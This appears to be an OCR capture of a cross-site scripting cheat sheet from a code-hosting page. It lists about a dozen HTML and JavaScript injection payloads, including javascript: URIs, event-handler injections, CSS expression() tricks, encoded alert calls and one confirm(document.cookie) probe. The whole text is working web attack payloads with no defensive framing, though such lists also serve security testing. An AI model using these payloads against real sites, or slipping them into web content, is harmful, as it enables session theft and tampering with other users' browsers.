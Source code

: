  <Input value = "XSS" type = text>

<applet code="javascript:confirm(document.cookie);">

<form><a href="javascript:\u0061lert(1)">X

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"


 <A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

<a href="/share?content_type=1&title=This is a regular title&amp;content_type=1;alert(1)">Share</a>
 
 <DIV STYLE="background-image: url(javascript:alert('XSS'))">

<DIV STYLE="width: expression(alert('XSS'));">


 
 <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"****
